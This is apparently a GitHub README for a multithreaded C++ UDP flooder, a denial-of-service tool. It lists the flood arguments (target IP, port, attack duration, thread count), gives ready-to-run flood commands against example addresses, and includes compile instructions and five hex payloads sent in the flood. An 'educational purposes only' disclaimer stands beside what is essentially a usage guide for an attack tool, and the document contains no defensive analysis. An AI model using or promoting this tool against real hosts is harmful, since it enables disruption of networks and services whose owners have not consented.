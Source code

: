 # UDP Flooder with Hex Payloads

This project demonstrates a simple UDP flooder that sends multiple custom hex payloads to a target IP and port. The tool is designed to create multiple threads, each sending different payloads in rapid succession for a specified duration. It uses the C++ `socket` API for network communication.

## Terms and Conditions
This tool is intended for **educational purposes only**. Use it to understand network protocols and test network configurations in a controlled environment. **Do not use this tool for any unauthorized activities, personal revenge, or to disrupt networks or services**. Ensure you have explicit permission before testing any network or system. Misuse of this tool may lead to legal consequences.

## Notes
- Ensure you have proper permission to run this tool on the network you intend to test.
- **Warning**: Unauthorized use of network stress testing or DoS attacks on networks that you do not own or have explicit permission to test is illegal and unethical.

## Table of Contents
- [Features](#features)
- [Prerequisites](#prerequisites)
- [Usage](#usage)
- [Hex Payloads](#hex-payloads)
- [Compiling](#compiling)
- [Running](#running)
- [Terms and Conditions](#terms-and-conditions)
- [Notes](#notes)
- [License](#license)

## Features
- Sends multiple hex payloads to a target IP and port over UDP.
- Supports multi-threading for higher traffic generation.
- Payloads are sent in a continuous loop until the specified time duration ends.
- Highly configurable: change IP, port, duration, and number of threads.

## Prerequisites
Ensure you have the following installed:
- GCC or any C++ compiler.
- Linux or any UNIX-based system (for socket programming).
- Basic knowledge of terminal/command-line usage.

## Usage
This UDP flooder takes four arguments:
1. Target IP address
2. Target port
3. Duration of the attack (in seconds)
4. Number of threads

Example command:
```bash
./udp_flooder 192.168.1.10 8080 60 10
```
This command will flood the target IP (`192.168.1.10`) on port `8080` for `60` seconds using `10` threads.

### Arguments
| Argument          | Description                               |
|-------------------|-------------------------------------------|
| `<IP>`            | Target IP address.                        |
| `<Port>`          | Target port number.                       |
| `<Duration>`      | Duration of the flood in seconds.         |
| `<Number of Threads>` | Number of threads to spawn.           |

## Hex Payloads
The following hex payloads are used in the flood:
1. **Payload 1**:
   ```text
   ca 75 c9 94 3c 26 fc 04 5e f7 4f ba f4 5e 5b 57
   22 d4 69 80 b3 aa 21 ad 9e 72 14 f7 d2 dd e6 e8
   10 c6 93 51
   ```

2. **Payload 2**:
   ```text
   af 33 b7 21 4d 88 ec 33 99 11 6e bc 2f de 76 8a
   ab 5f 90 b2 12 3d 4b 8e ff cc 55 29 10 ac e7 da
   14 e6 88 92
   ```

3. **Payload 3**:
   ```text
   7c 35 d2 b9 81 25 e8 06 26 7f 1c d0 c6 12 99 4a
   e7 b9 3d 66 b5 ae ee dd d9 01 9d 75 74 ef 64 1f
   23 7b 4e c7 9a 27 38
   ```

4. **Payload 4**:
   ```text
   10 71 08 0e 77 3a a6 ac 0c 77 1d 54 aa 3a ee ec
   54 70 1e e5 f3 0b 61 bf d2 5c 4f e8
   ```

5. **Payload 5**:
   ```text
   ba 12 01 a5 b0 34 a6 c7 fc 2d c1 01 cc 23 e6 21
   b5 98 6b f4 f5 f2 9f ef de ed 7b cf d6 33 bb 98
   8d 60 80 5f 9e f4 68 72 45 92 f5 af 54 fc e6 30
   c3 0c 83 ac b5 4c 69 5a a2 6f b5 7a 96 b9 67 cb
   b6 e7 68 59 9d 76 3d 56 bb 55 48 6d 92 6d 3d 06
   b6 4a 31 55 97 e9 fb 4f 3c bd cf a1 4c 33 53 5e
   3d c6 91 ee f3 ac a7 99 41 d9 a7 76 11 6a 32 62
   a7 00 22 f6 a1 88 30 07 be 68 91 31 3d 11 58 b9
   63 d9 31 d7 40 c4 5b 8c f2 40 13 45 d6 9d 85 f5
   5d 3c e6 b3 81 6b 97 f0 60 cb ee 2b 67 d8 d3 38
   d0 9e 57 d2 fc df 3a ed 51 0f d9 71 6d 3e fd f4
   5e 3f 8c
   ```

## Compiling
To compile the UDP flooder, use `g++` or any other C++ compiler. Here’s how you can do it with `g++`:
```bash
g++ -o udp_flooder udp_flooder.cpp -lpthread
```

This command compiles the C++ source file (`udp_flooder.cpp`) into an executable named `udp_flooder`, linking it with the `pthread` library for multi-threading.

## Running
Once compiled, you can run the UDP flooder with the following command:
```bash
./udp_flooder <IP> <Port> <Duration> <Number of Threads>
```

For example:
```bash
./udp_flooder 192.168.1.100 8080 120 20
```
This will send UDP packets to IP `192.168.1.100` on port `8080` for `120` seconds using `20` threads.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.